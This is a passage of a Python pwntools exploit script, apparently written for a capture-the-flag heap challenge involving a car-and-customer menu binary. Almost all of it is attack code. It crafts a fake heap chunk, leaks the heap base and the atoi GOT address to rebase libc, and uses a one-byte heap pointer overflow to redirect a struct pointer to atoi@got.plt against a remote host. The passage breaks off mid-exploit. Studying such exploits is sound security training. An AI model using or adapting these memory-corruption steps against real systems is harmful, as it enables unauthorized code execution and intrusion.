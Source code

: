 ```python exp_car.py
    r.sendlineafter(">\n", "4")

    for (choice, data) in cust_zip:
        r.sendlineafter(">\n", str(choice))
        r.sendlineafter(": \n", data)
    
    r.sendlineafter(">\n", "4") # exit cust mode

def leak_heap(idx):
    r.sendlineafter(">\n", "4")
    r.sendlineafter("index\n", str(idx))
    r.sendlineafter(">\n", "4") # add cust
    r.sendlineafter(">\n", "3") # add com
    r.sendlineafter(": \n", "123") # input com
    r.sendlineafter(">\n", "4") # exit cust
    r.sendlineafter(">\n", "4") # add cust
    r.sendlineafter(">\n", "4") # exit cust
    r.sendlineafter(">\n", "1") # list
    r.recvuntil("Firstname : ")
    heap_base = u64(r.recvline().strip().ljust(8, "\x00")) - 0xb90
    r.sendlineafter(">\n", "5")

    return heap_base

def leak_got(idx):
    r.sendlineafter(">\n", "4")
    r.sendlineafter("index\n", str(idx))
    r.sendlineafter(">\n", "1")
    r.recvuntil("Firstname : ")
    atoi_addr = u64(r.recv(6).ljust(8, "\x00"))
    log.success("atoi_addr: "+hex(atoi_addr))
    libc.address += atoi_addr - libc.symbols['atoi']
    r.sendlineafter(">\n", "5")


if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    for i in xrange(17):
        model = chr(ord("a")+i)*4
        price = 100+i
        log.info("add car: "+str(i))
        if i == 15: # fake chunk
            model = p64(0) + p64(0x51)
            price = 0x1111
        add_car(model, price)

    # leak heap base
    log.info("leaking heap base...")
    heap_base = leak_heap(16)
    log.success("heap_base: "+hex(heap_base))

    # overflow one byte of heap address
    log.info("overflowing heap address...")
    choice = [3, 1]
    data   = ["comment", "A"*33]
    sel_car_cust(16, zip(choice, data))   
    
    # add comment and overwrite customer pointer, change it to atoi@got.plt
    log.info("modifying car 15 struct (for leaking got)...")
    r.sendlineafter(">\n", "4") # add customer
```